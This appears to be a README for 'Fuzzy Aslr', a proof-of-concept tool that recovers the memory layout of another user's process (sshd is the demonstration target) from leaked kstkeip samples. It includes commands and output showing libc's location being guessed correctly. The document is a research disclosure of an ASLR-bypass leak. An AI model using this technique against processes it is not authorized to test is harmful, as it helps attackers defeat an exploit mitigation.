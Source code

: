 # Introduction #

kstkeip is a very low granularity counter, few processes worth attacking are compute bound for long periods of time. With the very few unique samples that can be acquired, it's not immediately obvious whether this information leak is useful or not (note that due to the way linkers typically use PT\_LOAD, data will be mapped immediately adjacent to text).

Fuzzy Aslr is a Proof of Concept implementation that attempts to "reconstruct" the address space layout of a process you don't own via kstkeip.

Thanks to x86 being a variable width instruction architecture, by recursively disassembling the target binary and all DT\_NEEDED dependencies and recording the instruction boundaries it encounters, we're able to build up a fingerprint of each section of code that will be mapped.

Surprisingly, just a few (6 or so) samples of kstskeip from the same mapping is enough to uniquely fingerprint most code.

# Details #

I am unable to see the address space layout of sshd

```

$ pidof sshd
3526
$ cat /proc/3526/maps
$
```

Now let's try and reconstruct it:

```
$ ./aslr 3526 /usr/sbin/sshd 
bounds.c:206,b_add_boundary_record():info: Found 71259 instruction boundaries from PT_LOAD@0 in /usr/sbin/sshd
bounds.c:206,b_add_boundary_record():info: Found 4724 instruction boundaries from PT_LOAD@0x84e000 in /lib/libwrap.so.0
bounds.c:206,b_add_boundary_record():info: Found 16381 instruction boundaries from PT_LOAD@0xdbe000 in /lib/libnsl.so.1
bounds.c:206,b_add_boundary_record():info: Found 288182 instruction boundaries from PT_LOAD@0x708000 in /lib/libc.so.6
bounds.c:206,b_add_boundary_record():info: Found 24301 instruction boundaries from PT_LOAD@0x6e6000 in /lib/ld-linux.so.2
bounds.c:206,b_add_boundary_record():info: Found 7005 instruction boundaries from PT_LOAD@0x682000 in /lib/libpam.so.0
bounds.c:206,b_add_boundary_record():info: Found 1387 instruction boundaries from PT_LOAD@0x877000 in /lib/libdl.so.2
bounds.c:206,b_add_boundary_record():info: Found 7284 instruction boundaries from PT_LOAD@0x666000 in /lib/libaudit.so.0
bounds.c:206,b_add_boundary_record():info: Found 15338 instruction boundaries from PT_LOAD@0xda4000 in /lib/libselinux.so.1
bounds.c:206,b_add_boundary_record():info: Found 53562 instruction boundaries from PT_LOAD@0x49b000 in /lib/libsepol.so.1
bounds.c:206,b_add_boundary_record():info: Found 12704 instruction boundaries from PT_LOAD@0xddd000 in /lib/libresolv.so.2
bounds.c:200,b_add_boundary_record():warn: oops, desync@0x53a21f in /lib/libcrypto.so.6, skipping...
bounds.c:206,b_add_boundary_record():info: Found 43022 instruction boundaries from PT_LOAD@0x4e3000 in /lib/libcrypto.so.6
bounds.c:206,b_add_boundary_record():info: Found 12639 instruction boundaries from PT_LOAD@0x896000 in /usr/lib/libz.so.1
bounds.c:206,b_add_boundary_record():info: Found 811 instruction boundaries from PT_LOAD@0x5896000 in /lib/libutil.so.1
bounds.c:206,b_add_boundary_record():info: Found 7439 instruction boundaries from PT_LOAD@0x6160000 in /lib/libcrypt.so.1
bounds.c:206,b_add_boundary_record():info: Found 36737 instruction boundaries from PT_LOAD@0x6a3000 in /usr/lib/libgssapi_krb5.so.2
bounds.c:206,b_add_boundary_record():info: Found 126052 instruction boundaries from PT_LOAD@0x4023000 in /usr/lib/libkrb5.so.3
bounds.c:206,b_add_boundary_record():info: Found 26639 instruction boundaries from PT_LOAD@0xbca000 in /usr/lib/libk5crypto.so.3
bounds.c:206,b_add_boundary_record():info: Found 4844 instruction boundaries from PT_LOAD@0x6d3000 in /usr/lib/libkrb5support.so.0
bounds.c:206,b_add_boundary_record():info: Found 646 instruction boundaries from PT_LOAD@0xdf7000 in /lib/libkeyutils.so.1
bounds.c:206,b_add_boundary_record():info: Found 775 instruction boundaries from PT_LOAD@0xdf2000 in /lib/libcom_err.so.2
bounds.c:206,b_add_boundary_record():info: Found 268653 instruction boundaries from PT_LOAD@0x66a8000 in /usr/lib/libnss3.so
bounds.c:206,b_add_boundary_record():info: Found 14133 instruction boundaries from PT_LOAD@0x6830000 in /usr/lib/libnssutil3.so
bounds.c:206,b_add_boundary_record():info: Found 2464 instruction boundaries from PT_LOAD@0x67ef000 in /usr/lib/libplc4.so
bounds.c:206,b_add_boundary_record():info: Found 41917 instruction boundaries from PT_LOAD@0x67f5000 in /usr/lib/libnspr4.so
bounds.c:206,b_add_boundary_record():info: Found 14465 instruction boundaries from PT_LOAD@0x87d000 in /lib/libpthread.so.0
bounds.c:206,b_add_boundary_record():info: Found 1512 instruction boundaries from PT_LOAD@0x67ea000 in /usr/lib/libplds4.so
sample.c:040,s_record():info: new unique sample 0x358410
```

New values are constantly being sampled, but as sshd is blocking in select() or similar, no new eip values are being seen. Lets make it do some work for a few minutes...

```
$ while :; do ssh localhost true; done
```

And the output from aslr:

```
sample.c:040,s_record():info: new unique sample 0x358410
sample.c:040,s_record():info: new unique sample 0xc1a379
sample.c:040,s_record():info: new unique sample 0xc464f6
sample.c:040,s_record():info: new unique sample 0x358428
sample.c:040,s_record():info: new unique sample 0x21f263
sample.c:040,s_record():info: new unique sample 0x7ce5ae
sample.c:040,s_record():info: new unique sample 0xc1e41c
bounds.c:096,b_fuzzy_match():info: /lib/libc.so.6 could be mapped at 0xbb5000, 4 matches, MEDIUM confidence (8 samples)
bounds.c:096,b_fuzzy_match():info: /usr/lib/libk5crypto.so.3 could be mapped at 0xc03000, 4 matches, MEDIUM confidence (11 samples)
sample.c:040,s_record():info: new unique sample 0xc1ed25
sample.c:040,s_record():info: new unique sample 0xc1b96d
bounds.c:087,b_fuzzy_match():info: /lib/libc.so.6 could be mapped at 0xbb5000, 8 matches, HIGH confidence (13 samples)
GUESS: 00bb5000-00cf3000 r-xp fd:00 0 /lib/libc.so.6
sample.c:040,s_record():info: new unique sample 0x791490
...
```

Just 13 unique samples from kstkeip were enough to guess where libc.so was mapped, and checking if it's correct:

```
$ sudo grep -A1 00bb5000-00cf3000 /proc/3526/maps
00bb5000-00cf3000 r-xp 00000000 fd:00 30507077   /lib/libc-2.5.so
00cf3000-00cf5000 r--p 0013e000 fd:00 30507077   /lib/libc-2.5.so
```

Exactly right! aslr will continue until it's been able to reconstruct the entire layout.
